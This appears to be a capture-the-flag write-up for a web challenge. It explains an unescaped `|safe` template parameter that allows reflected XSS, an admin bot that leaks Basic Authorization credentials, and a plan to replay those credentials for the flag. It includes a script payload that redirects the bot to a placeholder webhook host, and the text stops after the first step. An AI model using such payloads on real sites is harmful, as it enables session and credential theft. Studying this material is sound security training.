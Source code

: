 ### Template Analysis (intro.html)
```html
<!-- Key vulnerability: name parameter rendered without escaping -->
<h1>Welcome {{ name|safe }}!</h1>
<p>{{ detail }}</p>
```

**Critical Finding**: The `name` parameter uses the `|safe` filter, meaning HTML/JavaScript content will be rendered without escaping.

---

## Vulnerability Analysis

### 1. Cross-Site Scripting (XSS)
- **Location**: `/intro` endpoint, `name` parameter
- **Type**: Reflected XSS
- **Cause**: `|safe` filter in template bypasses HTML escaping

### 2. Authorization Header Exposure
- **Mechanism**: Admin bot automatically adds `Authorization: Basic <encoded_credentials>` header
- **Target**: Any request made by the admin bot contains valid admin credentials

### 3. Authentication Logic
- **Endpoint**: `/whoami`
- **Validation**: Checks `Authorization` header for admin credentials
- **Reward**: Returns flag if valid admin credentials provided

---

## Exploitation Strategy

### Attack Flow
1. **Craft XSS payload** to steal admin's Authorization header
2. **Submit malicious URL** via `/report` to trigger admin bot
3. **Extract Base64-encoded credentials** from intercepted requests
4. **Replay credentials** to `/whoami` endpoint to retrieve flag

---

## Step-by-Step Exploitation

### Step 1: Craft XSS Payload
**Objective**: Redirect admin bot to external server to capture Authorization header

**Payload**:
```javascript
<script>document.location='https://your-webhook.com/'</script>
```
